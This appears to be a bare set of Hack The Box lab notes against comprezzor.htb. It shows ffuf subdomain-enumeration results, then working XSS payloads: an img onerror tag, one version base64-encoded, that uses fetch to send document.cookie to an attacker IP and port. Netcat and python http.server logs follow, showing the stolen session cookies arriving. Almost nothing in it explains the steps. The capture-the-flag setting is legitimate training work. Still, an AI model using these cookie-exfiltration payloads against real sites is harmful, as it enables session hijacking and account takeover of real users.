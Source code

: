 
# FFUF Scan Results

Scan details:
- **URL**: http://comprezzor.htb/
- **Wordlist**: /home/aexon/tools/wordlist/SecLists-master/Discovery/DNS/subdomains-top1million-110000.txt
- **Header**: Host: FUZZ.comprezzor.htb
- **Follow redirects**: false
- **Timeout**: 10
- **Threads**: 40
- **Matcher**: Response status: 200-299,301,302,307,401,403,405,500
- **Filter**: Response size: 178

## Output

| Subdomain   | Status | Size | Words | Lines | Duration |
|-------------|--------|------|-------|-------|----------|
| auth        | 302    | 199  | 18    | 6     | 565ms    |
| report      | 200    | 3166 | 1102  | 109   | 614ms    |
| dashboard   | 302    | 251  | 18    | 6     | 598ms    |

## Summary

- **auth.comprezzor.htb**
  - **Status**: 302
  - **Size**: 199
  - **Words**: 18
  - **Lines**: 6
  - **Duration**: 565ms

- **report.comprezzor.htb**
  - **Status**: 200
  - **Size**: 3166
  - **Words**: 1102
  - **Lines**: 109
  - **Duration**: 614ms

- **dashboard.comprezzor.htb**
  - **Status**: 302
  - **Size**: 251
  - **Words**: 18
  - **Lines**: 6
  - **Duration**: 598ms



```
<img src=x onerror='eval(atob("ZmV0Y2goJ2h0dHA6Ly8xMC4xMC4xNi4zOTo0NDQ1Lz9jb29raWU9Jytkb2N1bWVudC5jb29raWUp"));' />
```

```
<img src=x onerror="fetch('http://10.10.16.39:4445/?cookie='+document.cookie)" ; />
```

fetch('http://10.10.16.39:4445/?cookie='+document.cookie)

```bash
┌─[aexon@parrot]─[~]
└──╼ $nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.16.39] from (UNKNOWN) [10.10.11.15] 35138
GET /?cookie=user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4 HTTP/1.1
Host: 10.10.16.39:4445
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dashboard.comprezzor.htb/
Origin: http://dashboard.comprezzor.htb
Connection: keep-alive
```


```bash
┌─[aexon@parrot]─[~]
└──╼ $python3 -m http.server 4445
Serving HTTP on 0.0.0.0 port 4445 (http://0.0.0.0:4445/) ...
10.10.11.15 - - [10/Aug/2024 22:09:46] "GET /?cookie=user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4 HTTP/1.1" 200 -
10.10.11.15 - - [10/Aug/2024 22:09:46] "GET /?cookie=user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4 HTTP/1.1" 200 -
```

```
cookie=user_data=eyJ1c2VyX2lkIjogMTASICJ1c2VybmFtZSI6ICJOYWlwYW4iLCAic m9sZSI6ICJ1c2VyIn180TFmMDVhMTYxNGQyNzZjZDdmNTVlZGFhYjQ4NThmMjEzZjhhM2ExMDVmNTY0NGE4NTU4ZTcyMDQ5NjYwMDlhNw=
```